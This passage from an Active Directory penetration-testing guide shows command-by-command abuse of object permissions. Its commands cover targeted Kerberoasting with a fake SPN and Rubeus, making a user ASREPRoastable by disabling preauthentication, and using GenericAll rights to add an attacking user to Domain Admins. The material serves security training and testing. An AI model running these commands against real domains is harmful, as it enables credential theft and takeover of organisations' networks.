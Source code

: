     ```powershell
    # Set SPN
    Set-DomainObject -Credential $creds -Identity <username> -Set @{serviceprincipalname="fake/NOTHING"}
    # Get Hash
    .\Rubeus.exe kerberoast /user:<username> /nowrap
    # Clean SPN
    Set-DomainObject -Credential $creds -Identity <username> -Clear serviceprincipalname -Verbose

    # You can also use the tool https://github.com/ShutdownRepo/targetedKerberoast 
    # to get hashes of one or all the users
    python3 targetedKerberoast.py -domain.local -u <username> -p password -v
    ```
*   **Targeted ASREPRoasting**: You could make the user **ASREPRoastable** by **disabling** **preauthentication** and then ASREProast it.

    ```powershell
    Set-DomainObject -Identity <username> -XOR @{UserAccountControl=4194304}
    ```

## GenericAll on Group

Let's see if `Domain admins` group has any weak permissions. First of, let's get its `distinguishedName`:

```csharp
Get-NetGroup "domain admins" -FullData
```

![](../../../.gitbook/assets/4.png)

```csharp
 Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local"}
```

We can see that our attacking user `spotless` has `GenericAll` rights once again:

![](../../../.gitbook/assets/5.png)

Effectively, this allows us to add ourselves (the user `spotless`) to the `Domain Admin` group:

```csharp
net group "domain admins" spotless /add /domain
```

![](../../../.gitbook/assets/6.gif)
